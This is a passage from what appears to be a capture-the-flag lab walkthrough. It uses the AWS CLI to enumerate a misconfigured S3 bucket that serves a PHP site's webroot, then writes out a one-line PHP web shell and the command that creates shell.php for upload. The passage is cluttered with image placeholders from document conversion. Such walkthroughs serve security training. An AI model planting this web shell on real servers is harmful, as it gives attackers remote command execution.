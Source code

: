 We can list all of the S3 buckets hosted by the server by using the  ls command.![](Aspose.Words.2b1f03b8-9d16-4c0b-bf4c-68c188d36e86.049.png)

aws --endpoint=http://s3.thetoppers.htb s3 ls![](Aspose.Words.2b1f03b8-9d16-4c0b-bf4c-68c188d36e86.050.png)

![](Aspose.Words.2b1f03b8-9d16-4c0b-bf4c-68c188d36e86.051.jpeg)

We can also use the  ls command to list objects and common prefixes under the specified bucket.![](Aspose.Words.2b1f03b8-9d16-4c0b-bf4c-68c188d36e86.052.png)

aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb![](Aspose.Words.2b1f03b8-9d16-4c0b-bf4c-68c188d36e86.053.png)

![](Aspose.Words.2b1f03b8-9d16-4c0b-bf4c-68c188d36e86.054.jpeg)

We see the files  index.php , .htaccess and a directory called  images in the specified bucket. It seems like this is the webroot of the website running on ![](Aspose.Words.2b1f03b8-9d16-4c0b-bf4c-68c188d36e86.055.png)![](Aspose.Words.2b1f03b8-9d16-4c0b-bf4c-68c188d36e86.056.png)![](Aspose.Words.2b1f03b8-9d16-4c0b-bf4c-68c188d36e86.057.png) port 80 . So the Apache server is using this S3 bucket as storage.![](Aspose.Words.2b1f03b8-9d16-4c0b-bf4c-68c188d36e86.058.png)

awscli has got another feature that allows us to copy files to a remote bucket. We already know that the website is using PHP. Thus, we can try uploading a PHP shell file to the ![](Aspose.Words.2b1f03b8-9d16-4c0b-bf4c-68c188d36e86.059.png) S3 bucket and since it's uploaded to the webroot directory we can visit this webpage in the browser, which will,![](Aspose.Words.2b1f03b8-9d16-4c0b-bf4c-68c188d36e86.060.png)

in turn, execute this file and we will achieve remote code execution.

We can use the following PHP one-liner which uses the  system() function which takes the URL parameter ![](Aspose.Words.2b1f03b8-9d16-4c0b-bf4c-68c188d36e86.061.png) cmd as an input and executes it as a system command.![](Aspose.Words.2b1f03b8-9d16-4c0b-bf4c-68c188d36e86.062.png)

<?php system($\_GET["cmd"]); ?>![](Aspose.Words.2b1f03b8-9d16-4c0b-bf4c-68c188d36e86.063.png)

Let's create a PHP file to upload.

echo '<?php system($\_GET["cmd"]); ?>' > shell.php![](Aspose.Words.2b1f03b8-9d16-4c0b-bf4c-68c188d36e86.064.png)
